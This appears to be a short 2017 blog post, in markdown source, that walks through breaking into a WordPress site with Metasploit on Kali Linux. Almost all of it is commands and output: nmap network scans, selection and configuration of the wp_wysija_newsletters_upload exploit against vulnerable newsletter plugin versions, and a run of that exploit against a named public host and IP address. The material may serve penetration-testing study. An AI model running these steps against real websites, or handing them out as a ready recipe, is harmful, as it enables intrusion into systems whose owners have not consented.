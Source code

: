 ```yaml
---
layout: post_article
title: Exploiting a WordPress Website with Metasploit
date: 2017-01-16T10:00:00
category: article
tags:
- metasploit
- wordpress
- kali
---
```


This is a quick blog post about exploiting a [WordPress](https://wordpress.org/) website using [Metasploit](https://www.metasploit.com/) on [Kali Linux](https://www.kali.org/).

#### Identify a Remote Host

```sh
msf > db_nmap -v -sV 192.168.111.xxx
```

{% include c_image.html src='2017/016/exploiting-wordpress-with-metasploit/575CF62D4C7E18CFD40566EA08E7D588.png' %}

##### Scan an Entire Network

This will save the results to the metasploit database

```sh
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

* `hosts` will list all the hosts found by `nmap`.
* `hosts -R` will add them to the list of hosts to exploit.

#### Searching for a WordPress Vulnerability

```sh
msf > search name:wordpress
```

{% include c_image.html src='2017/016/exploiting-wordpress-with-metasploit/A9D412A6F8C5F3485B429E2EA41D4CB9.png' %}

#### Use an Exploit

This will select an exploit to use:

```sh
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

This will show you the attacks that the exploit will take advantage of:

```sh
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

{% include c_image.html src='2017/016/exploiting-wordpress-with-metasploit/67A7D5964C96C63BA11EEA707CB4A604.png' %}

This will show what software and version will be targeted:

```sh
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

#### Next configure the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > show options
```

```
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

Here is where we set all the options:

```sh
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

#### Run the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > exploit
```
